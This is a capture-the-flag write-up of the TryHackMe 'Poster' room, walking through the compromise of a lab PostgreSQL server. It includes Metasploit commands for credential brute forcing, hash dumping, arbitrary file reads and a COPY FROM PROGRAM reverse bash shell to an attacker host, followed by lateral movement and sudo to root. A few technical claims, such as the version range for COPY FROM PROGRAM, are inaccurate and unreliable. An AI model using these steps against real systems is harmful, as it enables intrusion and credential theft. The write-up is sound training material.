

## Introduction

Poster is a TryHackMe room that demonstrates the critical security implications of exposing a Relational Database Management System (RDBMS) to the internet. The room description hints that "the sys admin set up a rdbms in a safe way" - a statement that, as we'll see, is far from accurate.

This write-up documents my complete thought process, including dead ends and corrections, to provide a realistic view of how this machine was compromised.

---

## What is an RDBMS?

Before diving into the exploitation, let's understand what we're dealing with. An RDBMS (Relational Database Management System) is a database system based on E. F. Codd's relational model. It stores data in tables (relations) with rows and columns, and uses SQL (Structured Query Language) for interaction.

**Key Characteristics:**
- Data stored in tables
- Tables related using keys (primary & foreign keys)
- Supports CRUD operations (Create, Read, Update, Delete)
- Examples: MySQL, PostgreSQL, MSSQL, Oracle

**Why RDBMS over Flat Files?**
- Multiple related tables vs. single table
- Normalized data vs. redundant data
- Optimized queries vs. poor efficiency
- Highly scalable vs. hard to scale

---

## Phase 1: Initial Enumeration

I started with a comprehensive port scan to identify all exposed services on the target machine.

```bash
nmap -vv -p- 10.49.151.47 -sV
```

**Results:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2026-01-09 16:40 GMT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 16:40
Scanning 10.49.151.47 [4 ports]
Completed Ping Scan at 16:40, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:40
Scanning 10.49.151.47 [65535 ports]
Discovered open port 80/tcp on 10.49.151.47
Discovered open port 22/tcp on 10.49.151.47
Discovered open port 5432/tcp on 10.49.151.47
Completed SYN Stealth Scan at 16:40, 2.43s elapsed (65535 total ports)
Nmap scan report for 10.49.151.47
Host is up, received echo-reply ttl 64 (0.00041s latency).
Scanned at 2026-01-09 16:40:01 GMT for 8s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
5432/tcp open  postgresql syn-ack ttl 64 PostgreSQL DB 9.5.8 - 9.5.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Findings:**
- Port 22 (SSH): OpenSSH 7.2p2 on Ubuntu
- Port 80 (HTTP): Apache 2.4.18
- Port 5432 (PostgreSQL): PostgreSQL version 9.5.8–9.5.10

**Critical Observation:**
The exposed PostgreSQL service on port 5432 immediately stood out as a major security concern. Database services should never be publicly accessible, and the version (9.5.x) is outdated and known to be exploitable.

---

## Phase 2: Web Enumeration

Before jumping straight into database exploitation, I decided to enumerate the web application to see if any credentials could be discovered there.

### Initial Web Request

```bash
curl http://10.49.151.47
```

**Response:**
```html
<!DOCTYPE HTML>
<html>
	<head>
		<title>Poster CMS</title>
		<meta charset="utf-8" />
		<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
		<link rel="stylesheet" href="assets/css/main.css" />
	</head>
	<body class="is-preload">
		<header id="header">
			<h1>Poster</h1>
			<p>A simple boot2root machine for hackers :3<br />
			try harder!</p>
		</header>
		<form id="signup-form" method="post" action="#">
			<input type="email" name="email" id="email" placeholder="Email Address" />
			<input type="submit" value="Sign Up" />
		</form>
	</body>
</html>
```



The page appeared to be a static landing page with no backend functionality. The form's action was set to `#`, indicating no server-side processing.

### Directory Brute Forcing

I ran Gobuster to discover any hidden directories or files:

```bash
gobuster dir -u http://10.49.151.47/ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-t 100 -e .php,.html,.js,.txt,.bak,.zip
```

**Results:**
```
===============================================================
Gobuster v3.6
===============================================================
[+] Url:                     http://10.49.151.47/
[+] Method:                  GET
[+] Threads:                  100
[+] Wordlist:                 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:    404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.49.151.47/images               (Status: 301) [Size: 313]
http://10.49.151.47/assets               (Status: 301) [Size: 313]
http://10.49.151.47/server-status        (Status: 403) [Size: 277]
Progress: 218275 / 218276 (100.00%)
```

**Findings:**
- `/images` - Static image directory
- `/assets` - Static assets (CSS, JS)
- `/server-status` - Apache status page (403 Forbidden - properly restricted)

**Conclusion:**
The web application served only static content with no backend processing. No administrative panels, login pages, or dynamic endpoints were discovered. This confirmed that the intended attack path did not involve web exploitation, and the exposed PostgreSQL service was the primary attack vector.

---

## Phase 3: PostgreSQL Credential Enumeration

With the web application ruled out, I focused on the exposed PostgreSQL service. My first step was to test for default credentials.

### Manual Credential Testing

```bash
psql -h 10.49.151.47 -U postgres
```

**Result:**
```
Password for user postgres: 
psql: error: connection to server at "10.49.151.47", port 5432 failed: 
FATAL:  password authentication failed for user "postgres"
```

Default credentials were changed, which is good practice. However, password-based authentication was still enabled, making credential enumeration viable.

### Metasploit Credential Enumeration

I switched to Metasploit for more systematic credential testing:

```bash
msfconsole
```

```bash
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 10.49.151.47
run
```

**Output:**
```
[!] No active DB -- Credential data will not be saved!
[-] 10.49.151.47:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.49.151.47:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.49.151.47:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.49.151.47:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.49.151.47:5432 - Login Successful: postgres:<REDACTED>@template1
[-] 10.49.151.47:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Bruteforce completed, 1 credential was successful.
[*] You can open a Postgres session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

**🎯 Success!**

Valid credentials discovered:
- **Username:** `postgres`
- **Password:** `<REDACTED>`

**Critical Security Flaw:**
The administrator changed the default password. This demonstrates a fundamental misunderstanding of security - changing credentials is meaningless if the new password is equally weak.

---

## Phase 4: PostgreSQL Version Enumeration

With valid credentials, I proceeded to enumerate the PostgreSQL version to understand what capabilities were available.

```bash
use auxiliary/admin/postgres/postgres_sql
set RHOSTS 10.49.151.47
set USERNAME postgres
set PASSWORD <REDACTED>
run
```

**Query Executed:**
```sql
SELECT version();
```

**Output:**
```
[*] Running module against 10.49.151.47
Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

**Version Identified:**
- **PostgreSQL 9.5.21** on Ubuntu 16.04 (64-bit)

**Why This Matters:**
PostgreSQL versions ≤ 9.6 support the `COPY FROM PROGRAM` feature, which can be abused by superusers to execute operating system commands. This version is outdated and vulnerable to command execution if proper access controls aren't in place.

---

## Phase 5: Dumping PostgreSQL Password Hashes

As a PostgreSQL superuser, I could dump password hashes from the database system catalogs.

```bash
use auxiliary/scanner/postgres/postgres_hashdump
set RHOSTS 10.49.151.47
set USERNAME postgres
set PASSWORD <REDACTED>
run
```

**Output:**
```
[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623....
 poster     md578fb805c7412ae597b399844a54c....
 postgres   md532e12f215ba27cb750c9e093ce4b....
 sistemas   md5f7dbc0d5a06653e74da6b1af9290....
 ti         md57af9ac4c593e9e4f275576e13f93....
 tryhackme  md503aab1165001c8f8ccae31a8824e....

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Results:**
- **6 user password hashes** successfully dumped
- Multiple database users identified: `darkstart`, `poster`, `postgres`, `sistemas`, `ti`, `tryhackme`

**Note on PostgreSQL Hash Format:**
PostgreSQL stores passwords as MD5 hashes in the format `md5(password + username)`. This means the username must be included when cracking these hashes.

---

## Phase 6: Arbitrary File Read via PostgreSQL

PostgreSQL superusers can read arbitrary files from the filesystem using the `COPY FROM` command. I tested this capability by reading `/etc/passwd`.

```bash
use auxiliary/admin/postgres/postgres_readfile
set RHOSTS 10.49.151.47
set USERNAME postgres
set PASSWORD <REDACTED>
set RFILE /etc/passwd
run
```

**Output:**
```
[*] Running module against 10.49.151.47
Query Text: 'CREATE TEMP TABLE PmiOSaLFlBu (INPUT TEXT);
      COPY PmiOSaLFlBu FROM '/etc/passwd';
      SELECT * FROM PmiOSaLFlBu'
===================================================================================================================================================

    input
    -----
    #/home/dark/credentials.txt
    _apt:x:105:65534::/nonexistent:/bin/false
    alison:x:1000:1000:Poster,,,:/home/alison:/bin/bash
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    dark:x:1001:1001::/home/dark:
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    messagebus:x:106:110::/var/run/dbus:/bin/false
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    postgres:x:109:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    root:x:0:0:root:/root:/bin/bash
    sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    syslog:x:104:108::/home/syslog:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    uuidd:x:107:111::/run/uuidd:/bin/false
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

**🔍 Critical Discovery:**

At the very top of the output, I noticed an unusual comment:

```
#/home/dark/credentials.txt
```

This was not a normal part of `/etc/passwd`. This appeared to be an intentional hint left by the room author, pointing directly to a credentials file.

**Key System Users Identified:**
- `alison` (UID 1000) - Regular user with bash shell
- `dark` (UID 1001) - Regular user
- `postgres` (UID 109) - PostgreSQL administrator

---

## Phase 7: Extracting System Credentials

Following the hint, I read the credentials file:

```bash
set RFILE /home/dark/credentials.txt
run
```

**Output:**
```
[*] Running module against 10.49.151.47
Query Text: 'CREATE TEMP TABLE JOfmJxOiOKE (INPUT TEXT);
      COPY JOfmJxOiOKE FROM '/home/dark/credentials.txt';
      SELECT * FROM JOfmJxOiOKE'
====================================================================================================================================

    input
    -----
    dark:<REDACTEDDDD>

[+] 10.49.151.47:5432 Postgres - /home/dark/credentials.txt saved in /home/kali/.msf4/loot/20260109224635_default_10.49.151.47_postgres.file_313159.txt
[*] Auxiliary module execution completed
```

**🎯 System Credentials Recovered:**
- **Username:** `dark`
- **Password:** `<REDACTED>`

This demonstrated another critical security flaw: storing plaintext credentials in an accessible file on the filesystem.

---

## Phase 8: SSH Access as dark

With valid system credentials, I gained SSH access:

```bash
ssh dark@10.49.151.47
```

**Password:** `....`

**Shell Obtained:**
```
dark@ubuntu:~$
```

### Initial Enumeration as dark

I explored the system to understand the environment:

```bash
whoami
```

```
dark
```

```bash
ls -la
```

```
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28  2020 ./
drwxr-xr-x 4 root root 4096 Jul 28  2020 ../
-rw------- 1 dark dark   26 Jul 28  2020 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile
-rwxrwxrwx 1 dark dark   24 Jul 28  2020 credentials.txt*
```

### Attempting to Access alison's Flag

I checked for other users and attempted to read alison's user flag:

```bash
ls -la /home
```

```
total 16
drwxr-xr-x  4 root   root   4096 Jul 28  2020 .
drwxr-xr-x 22 root   root   4096 Jul 28  2020 ..
drwxr-xr-x  4 alison alison 4096 Jul 28  2020 alison
drwxr-xr-x  2 dark   dark   4096 Jul 28  2020 dark
```

```bash
ls -la /home/alison/
```

```
total 40
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 .
drwxr-xr-x 4 root   root   4096 Jul 28  2020 ..
-rw------- 1 alison alison 2444 Jul 28  2020 .bash_history
-rw-r--r-- 1 alison alison  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 alison alison 3771 Aug 31  2015 .bashrc
drwx------ 2 alison alison 4096 Jul 28  2020 .cache
drwxr-xr-x 2 alison alison 4096 Jul 28  2020 .nano
-rw-r--r-- 1 alison alison  655 May 16  2017 .profile
-rw-r--r-- 1 alison alison    0 Jul 28  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Jul 28  2020 .wget-hsts
-rw------- 1 alison alison   35 Jul 28  2020 user.txt
```

The `user.txt` file had restrictive permissions (`-rw-------`), meaning only alison could read it. I also noticed `.sudo_as_admin_successful`, indicating alison had sudo privileges.

```bash
cat /home/alison/user.txt
```

```
cat: /home/alison/user.txt: Permission denied
```

As expected, direct access was denied. I needed to either become alison or escalate to root.

### Checking for Privilege Escalation Paths

I checked for sudo privileges and SUID binaries:

```bash
sudo -l
```

```
[sudo] password for dark: 
Sorry, user dark may not run sudo on ubuntu.
```

No sudo access for dark.

```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping6
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
```

All standard SUID binaries - nothing exploitable here.

### Checking Bash History

I examined dark's bash history for clues:

```bash
cat .bash_history
```

```
sudo mv
sudo -s
su alison
```

Interesting! Dark had previously attempted to switch to alison. This suggested credential reuse might be possible, but my attempt failed:

```bash
su alison
```

```
Password: 
su: Authentication failure
```

The password wasn't reused between dark and alison. I needed another approach.

---

## Phase 9: PostgreSQL RCE via COPY FROM PROGRAM

Since I already had PostgreSQL superuser access, I decided to leverage it for remote command execution. PostgreSQL 9.5.x supports the `COPY FROM PROGRAM` feature, which can execute OS commands when used by a superuser.

### Using Metasploit Exploit Module

The correct Metasploit module for this is:

```
exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

**Note:** Initially, I mistakenly thought it was under `exploit/linux/postgres/`, but the correct path is `exploit/multi/postgres/`.

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
set RHOSTS 10.49.151.47
set USERNAME postgres
set PASSWORD <REDACTED>
set LHOST <YOUR_IP>
set TARGET 0
set payload cmd/unix/reverse_bash
set LPORT 6666
run
```

**Output:**
```
[*] Started reverse TCP handler on 0.0.0.0:6666 
[*] 10.49.151.47:5432 - PostgreSQL 9.5.21
[*] 10.49.151.47:5432 - Sending payload...
[*] Command Stager progress - 100.00% done (819/819 bytes)
[*] Sending stage (816 bytes) to 10.49.151.47
[*] Command shell session 1 opened (192.168.143.11:6666 -> 10.49.151.47:41614) at 2026-01-09 16:50:23 +0000
```

**Shell Obtained!**

On my listener:

```bash
rlwrap nc -lnvp 6666
```

```
listening on [any] 6666 ...
connect to [192.168.143.11] from (UNKNOWN) [10.49.151.47] 41614
```

### Stabilizing the Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 cols 120
```

**Verification:**
```bash
whoami
```

```
postgres
```

```bash
pwd
```

```
/var/lib/postgresql/9.5/main
```

Perfect! I now had a shell as the postgres user.

---

## Phase 10: Discovering Alison's Credentials in config.php

While enumerating the system, I explored the web directory:

```bash
cd /var/www/html
ls -la
```

```
total 20
drwxr-xr-x 2 root root 4096 Jul 28  2020 .
drwxr-xr-x 3 root root 4096 Jul 28  2020 ..
-rw-r--r-- 1 root root 1233 Jul 28  2020 index.html
-rw-r--r-- 1 root root  183 Jul 28  2020 config.php
```

A `config.php` file! This was exactly what I needed.

```bash
cat config.php
```

**Output:**
```php
<?php 
        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = ".............";
        $dbname = "mysudopassword";
?>
```

**🎯 Critical Discovery!**

I found alison's database credentials:
- **Username:** `alison`
- **Password:** `...........`

This was a massive security flaw: storing plaintext credentials in a web-accessible configuration file. Even worse, this password was likely reused for alison's system account.

---

## Phase 11: Lateral Movement to alison

With alison's credentials, I attempted to switch users:

```bash
su alison
```

**Password:** `###########`

**Success!**

```bash
whoami
```

```
alison
```

Excellent! Credential reuse between the database and system account allowed lateral movement.

---

## Phase 12: Obtaining the User Flag

Now as alison, I could read the user flag:

```bash
cat ~/user.txt
```

**✅ User Flag Obtained!**

```
THM{REDACTED}
```

---

## Phase 13: Privilege Escalation to Root

As alison, I checked sudo permissions:

```bash
sudo -l
```

**Password:** `........`

**Output:**
```
Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

**Perfect!** Alison had full sudo privileges without password restrictions.

### Escalating to Root

```bash
sudo su
```

**Verification:**
```bash
whoami
```

```
root
```

```bash
id
```

```
uid=0(root) gid=0(root) groups=0(root)
```

**Root access achieved!**

---

## Phase 14: Obtaining the Root Flag

```bash
cd /root
ls
```

```
root.txt
```

```bash
cat root.txt
```

**✅ Root Flag Obtained!**

```
THM{REDACTED}
```

---

## Complete Attack Chain Summary

1. **Port Scanning** - Identified exposed PostgreSQL service on port 5432
2. **Web Enumeration** - Confirmed static website with no attack surface
3. **Credential Enumeration** - Discovered weak PostgreSQL credentials (`postgres:……`)
4. **Version Enumeration** - Identified PostgreSQL 9.5.21 (vulnerable to COPY FROM PROGRAM)
5. **Hash Dumping** - Extracted 6 PostgreSQL user password hashes
6. **Arbitrary File Read** - Read `/etc/passwd` and discovered hint pointing to credentials file
7. **Credential Extraction** - Recovered system credentials (`dark:……`)
8. **SSH Access** - Gained initial foothold as user `dark`
9. **RCE via PostgreSQL** - Achieved command execution using COPY FROM PROGRAM
10. **Web Config Discovery** - Found `config.php` containing alison's credentials
11. **Lateral Movement** - Switched to user `alison` using credential reuse
12. **User Flag** - Retrieved `user.txt` from alison's home directory
13. **Privilege Escalation** - Escalated to root via sudo
14. **Root Flag** - Retrieved `root.txt` from `/root`

---

## References

- PostgreSQL Documentation
- Metasploit PostgreSQL Modules
- TryHackMe Poster Room

---

*This write-up documents my complete thought process and methodology while solving the Poster room. All commands and outputs are from my actual engagement with the target machine.*

